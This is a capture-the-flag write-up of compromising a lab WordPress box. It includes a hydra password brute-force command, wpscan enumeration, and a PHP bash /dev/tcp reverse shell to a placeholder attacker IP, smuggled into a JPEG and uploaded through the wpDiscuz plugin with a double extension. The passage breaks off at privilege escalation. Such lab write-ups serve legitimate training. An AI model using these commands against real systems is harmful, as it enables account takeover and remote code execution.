 ```
hydra -t 12 -l j@m3s -P /usr/share/wordlists/rockyou.txt $targ3t http-post-form "/assets/fonts/blog/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A2F%2blogger.pg%2Fassets%2Ffonts%2Fblog%2Fwp-admin%2F&testcookie=1:F=ERROR" -V
```

This doesn't seem to be working as there is no password that matches this username from the `rockyou.txt` list. 

_<sup>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sup>_ Let's try to use a `wpscan` as this is a wordpress website to see if there are any interesting plugins we could use:

```
wpscan --url http://$targ3t/assets/fonts/blog -t 12 --plugins-detection aggressive -v -o wp.scan
```

In the identified plugins we can see `wpdiscuz`, which has a capability to upload comments and images. I'm wondering if I can upload a php reverse shell as an image and send a request to it:

```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/"ATTACKING IP"/443 0>&1'"); __halt_compiler(); ?>
```

I used the above code as a PHP reverse shell and I will try to inject it into a `boat.jpg` I have downloaded the following way:

```
jhead -ce boat.jpg
```

Now I will navigate to one of the blog posts on the blog:

```
firefox https://blogger.pg/assets/fonts/blog/?p=29
```

And try to attach this `boat.jpg` to a comment and post it.

The comment has been made, now I'll listen with `nc` on port `443`:

```
nc -lvnp 443
```

And navigate to this image with a URL it is hosted on. It doesn't seem to work. The listener doesn't do anything. Let's change the extension of the image to `boat.jpg.php` and see if the comment image upload engine will recognize it.

The upload worked, posting comment.

Trying to navigate to this `php` file from browser.

And we have a shell. Get the local flag:

```
cd /home/james
cat local.txt
```

Time for Privilege Escalation now to get the root flag. Let's try the former privilege escalation exploit we found and saved as `exploit.php`. _<sup>Assisted by [write-up](https://cyberarri.com/2024/03/17/blogger-pg-play-writeup/):</sup>_ But first, let's upgrade the shell. 
